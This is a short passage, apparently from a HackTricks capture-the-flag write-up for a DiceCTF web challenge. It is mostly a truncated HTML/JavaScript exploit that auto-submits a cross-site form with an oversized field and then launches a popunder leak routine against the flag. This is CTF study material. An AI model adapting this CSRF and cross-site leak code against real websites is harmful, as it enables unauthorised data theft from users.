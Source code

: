 ```html
}

const csrf = async () => {
    x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
    x.title.value = "A".repeat(1000000)
    x.submit()
}

window.onload = () => {
    let p = new URL(location).searchParams;
    if(!p.has('i')){
        console.log(`no INSTANCE`)
        return
    }
    INSTANCE = p.get('i')
    // step 1 
    if(p.has('csrf')){
        csrf()
        return
    }
    // step 2
    if (p.has('exploit')) {
        // window open is ok in headless :)
        popunder()
        
        exploit('dice{')
    }
}
</script>
```



<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
